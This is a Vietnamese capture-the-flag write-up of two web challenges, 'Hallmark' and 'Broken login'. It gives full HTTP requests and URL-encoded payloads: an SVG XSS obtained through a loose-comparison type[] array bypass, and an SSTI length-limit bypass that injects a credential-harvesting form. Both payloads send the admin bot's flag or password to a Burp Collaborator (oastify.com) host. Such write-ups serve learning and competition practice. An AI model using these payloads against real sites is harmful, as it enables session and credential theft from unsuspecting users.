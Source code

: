 # 1. Hallmark
![image](https://user-images.githubusercontent.com/103978452/235079807-32bf2932-9cb2-4b36-96f8-f8cc1a2af082.png)

Website cho phép user tạo thiệp mời với đoạn text bất kỳ hoặc một svg image. Tùy vào loại nội dung mà response sẽ có content-type phù hợp. Ngoài ra, có admin bot sẽ truy cập URL mà ta đưa vào.

Request tạo card:
```
POST /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 20
Content-Type: application/x-www-form-urlencoded

svg=text&content=abc
```
Khi đó website sẽ tạo một card với một uuid, và `GET /card?id=<card_uuid>` sẽ có response là nội dung của card. Nếu method tạo card có `svg=text` thì response trả về card có `Content-Type: text/plain`. Nếu `svg=heart` hoặc các giá trị nằm trong danh sách svg, card có `Content-Type: image/svg+xml`.

Đọc source code, ta thấy có đoạn sau:
```
app.put("/card", (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]){
        res.send("bad id");
        return;
    }

    cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;

    res.send("ok");
});
```

Ta có thể chèn đoạn text bất kỳ nhưng Content-Type sẽ là plain/text => không thể tạo executable script. Còn nếu tạo card với Content-Type là image/svg+xml thì content bị giới hạn, chỉ được sử dụng các card hệ thống cho sẵn. Như vậy, ta cần tìm cách bypass để chèn text vào nhưng Content-Type vẫn là svg => XSS => Khiến admin bot khai ra flag.

Để exploit, ta sẽ lợi dụng lỗ hổng loose comparison trong controller `PUT /card`. Ta submit request:
```
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 82
Content-Type: application/x-www-form-urlencoded

id=d917d80d-4a5b-413b-9b9d-c6f7ce1a1c08&type[]=image/svg%2bxml&svg=abc&content=abc
```
Khi request trên được xử lý, server sẽ đọc `type[]` như một array, khiến operator `==` trả về true, còn `===` trả về false => phá vỡ logic code => exploited!

Khi đó, gửi request `GET /card?id=d917d80d-4a5b-413b-9b9d-c6f7ce1a1c08` ta được response:
```
HTTP/1.1 200 OK
Server: nginx/1.23.3
Date: Fri, 28 Apr 2023 07:31:02 GMT
Content-Type: image/svg+xml
Content-Length: 3
Connection: close
X-Powered-By: Express
ETag: W/"3-qZk+NkcGgWq6PiVxeFDCbJzQ2J0"

abc
```

Như vậy ta đã có thể tấn công XSS sử dụng các đoạn mã svg. Thay thế `abc` bằng đoạn svg có thể trigger một request đến `/flag`, đọc response sau đó gửi về BurpCollaborator, kết quả ta lấy được flag.

Gửi request thay đổi nội dung card:
```
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 901
Content-Type: application/x-www-form-urlencoded

id=d917d80d-4a5b-413b-9b9d-c6f7ce1a1c08&type[]=image/svg%2bxml&svg=abc&content=%3C%3Fxml+version%3D%221.0%22+standalone%3D%22no%22%3F%3E%0A%3C%21DOCTYPE+svg+PUBLIC+%22-%2F%2FW3C%2F%2FDTD+SVG+1.1%2F%2FEN%22+%22http%3A%2F%2Fwww.w3.org%2FGraphics%2FSVG%2F1.1%2FDTD%2Fsvg11.dtd%22%3E%0A%0A%3Csvg+version%3D%221.1%22+baseProfile%3D%22full%22+xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg%22%3E%0A+++%3Crect+width%3D%22300%22+height%3D%22100%22+style%3D%22fill%3Argb%280%2C0%2C255%29%3Bstroke-width%3A3%3Bstroke%3Argb%280%2C0%2C0%29%22+%2F%3E%0A+++%3Cscript+type%3D%22text%2Fjavascript%22%3E%0A++++++var+xhr+%3D+new+XMLHttpRequest%28%29%3B%0Axhr.open%28%22GET%22%2C+%22%2Fflag%22%29%3B%0Axhr.onreadystatechange+%3D+%28%29+%3D%3E+%7Bdocument.location%3D%22https%3A%2F%2Frzu81o07v0z9s6jkjbo5ccdyfplf94.oastify.com%3Fflag%3D%22%2Bxhr.responseText%3B%7D%0Axhr.send%28%29%3B%0A+++%3C%2Fscript%3E%0A%3C%2Fsvg%3E
```

Flag: `actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}`

# 2. Broken login
Challenge cung cấp source code của file `app.py` và source code của admin bot.

File `app.py`:
```
from flask import Flask, make_response, request, escape, render_template_string

app = Flask(__name__)

fails = 0

indexPage = """...Login form..."""

@app.get("/")
def index():
    global fails
    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=fails)
        
        custom_message = escape(request.args["message"])
    
    return render_template_string(indexPage % custom_message, fails=fails)


@app.post("/")
def login():
    global fails
    fails += 1
    return make_response("wrong username or password", 401)


if __name__ == "__main__":
    app.run("0.0.0.0")
```

Khảo sát website, ta thấy các chức năng:

+) Login form cho phép nhập username và password, sẽ hiển thị "Wrong username or password" cho dù thông tin đăng nhập có là gì chăng nữa.

+) Admin bot sẽ visit URL với domain hợp lệ, điền thông tin username và password vào các ô input rồi submit form. Trong đó, password chính là flag.

Như vậy, ta cần đọc request login do admin bot submit. Đọc file `app.py`, ta thấy tham số `message` được truyền vào template. Thử `/?message={{7*7}}` => có lỗ hổng SSTI, tuy nhiên giới hạn độ dài là 25 nên cần tìm cách bypass.

Để bypass length, ta dùng `/?message={{request.args.a|safe}}&a=abc`. Khi `message` được load vào template, nó sẽ đọc tham số `a` trong query string và thay thế bằng giá trị của `a` khiến chuỗi`abc` được hiển thị. Ta thấy website chỉ escape biến `message` => XSS với parameter `a` => có thể tạo payload khiến Admin Bot execute script, gửi request đến BurpCollaborator.

Payload cuối cùng như sau: `https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cform+action%3D%22https%3A%2F%2Fuywcqez17hkq9srcsampsedao1urig.oastify.com%2Ftest%22+method%3D%22POST%22%3E%3Cinput+type%3D%22text%22+name%3D%22username%22%3E%3Cinput+type%3D%22text%22+name%3D%22password%22%3E%3Cinput+type%3D%22submit%22+value%3D%22SUBMIT%22%3E%3C%2Fform%3E`

Flag: `actf{adm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9}`
